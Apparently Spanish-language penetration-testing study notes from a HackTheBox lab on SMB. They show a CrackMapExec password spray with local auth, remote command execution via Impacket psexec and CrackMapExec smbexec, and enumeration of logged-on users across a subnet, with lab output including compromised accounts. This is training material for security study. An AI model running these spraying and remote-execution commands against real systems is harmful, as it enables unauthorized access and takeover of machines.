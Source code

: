 ```shell-session
Polika4RM@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```


--local-auth le dice a CrackMapExec (CME) que pruebe las credenciales contra las cuentas locales del equipo objetivo (el SAM local) en lugar de intentar autenticación de dominio/Kerberos.

---

### RCE (Remote Code Execution)

PsExec es una herramienta que permite ejecutar procesos en otros sistemas con una interactividad total con aplicaciones de consolas. 

### Impacket PsExec
Podemos utilizar el siguiente comando para conectarnos a un servicio SMB con credenciales:
```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

### CrackMapExec
Podemos utilizar el comando:
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

En caso de que estemos en una cuenta administrador y queramos ver que usuarios están conectados en la red, podemos utilizar:
```shell-session
Polika4RM@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser   
```
